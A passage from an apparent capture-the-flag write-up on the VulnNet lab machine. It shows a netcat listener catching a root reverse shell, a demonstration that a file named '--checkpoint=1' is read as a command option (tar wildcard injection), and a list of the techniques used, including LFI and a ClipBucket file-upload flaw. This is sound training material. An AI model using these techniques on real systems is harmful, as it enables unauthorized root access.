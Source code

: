 Setup a `netcat` listener on port 4444, and wait 2 minutes for the cronjob run:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

**Proof-of-Concept:**

```
server-management@vulnnet:~/Documents$ rm *
rm: unrecognized option '--checkpoint=1'
Try 'rm ./'--checkpoint=1'' to remove the file '--checkpoint=1'.
Try 'rm --help' for more information.
```

In this example, I wanna remove all the files in the current directory with `rm *`. However, the `rm` command treat file `'--checkpoint=1'` as an option, and throws an error.

# Rooted:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [Redacted] from (UNKNOWN) [10.10.53.129] 55968
/bin/sh: 0: can't access tty; job control turned off
# whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

**root.txt**

```
# cat /root/root.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Subdomain Enumeration
2. Local File Inclusion(LFI)
3. Cracking Hashes and Passphrase
4. ClipBucket 4.0 Arbitrary File Upload
5. Privilege Escalation Via Cronjob and Tar